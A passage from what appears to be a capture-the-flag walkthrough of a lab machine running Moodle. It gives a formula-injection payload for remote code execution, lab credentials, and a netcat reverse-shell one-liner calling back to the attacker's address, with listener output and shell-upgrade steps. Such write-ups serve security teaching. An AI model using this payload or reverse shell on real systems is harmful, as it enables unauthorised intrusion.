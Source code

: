     
    /*{a*/`$_GET[0]`;//{x}}
    

#### Execution

I’ll log in using giovanni / Th4C00lTheacha#, and then go to Algebra. From
there, I’ll click the gear icon and “Turn editing on”:

![1555339641587](https://0xdfimages.gitlab.io/img/1555339641587.png)

Then, for any of the Topics, I’ll click “Add an activity or resource”, select
Quiz, and hit “Add”. I’ll make up a name and description, and save it.

Now I can click on the quiz and then click the “Edit Quiz” button. I’ll click
“Add” and then “a new question”. In the pop-up I’ll select “Calculated” and
click “Add”. I’ll fill in all the required fields, but the only one that
matters is the “Answer 1 formula”. In there I’ll add the string from exploit.

I’ll save, hit next, and then add `&0=ping -c 1 10.10.14.3` to end of url.
When I do, I see a ping back to me on `tcpdump`.

Here’s the full attack:

[![Full Exploit POC](https://0xdfimages.gitlab.io/img/teacher-rce.gif)_Click
for full size image_](https://0xdfimages.gitlab.io/img/teacher-rce.gif)

### Shell

I’ll use this RCE to get a shell, grabbing my go to from the [reverse shell
cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-
sheet), adding `0=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc
10.10.14.3 443 >/tmp/f` to the end of the url. I did have to encode the `&` so
that it wasn’t treated as another parameter. I’ll get a callback on `nc`:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.153.
    Ncat: Connection from 10.10.10.153:40490.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Upgrade

I’ll upgrade my shell to a full tty. Use `python` to launch bash through the
`pty` module. Background the shell with Ctrl-z, then run `stty raw -echo`.
Then type `fg` to bring the shell back to the foreground. And run `reset` to
get the shell working again. Finally, I’ll `export TERM=screen` so I can clear
and other things like that.

    
    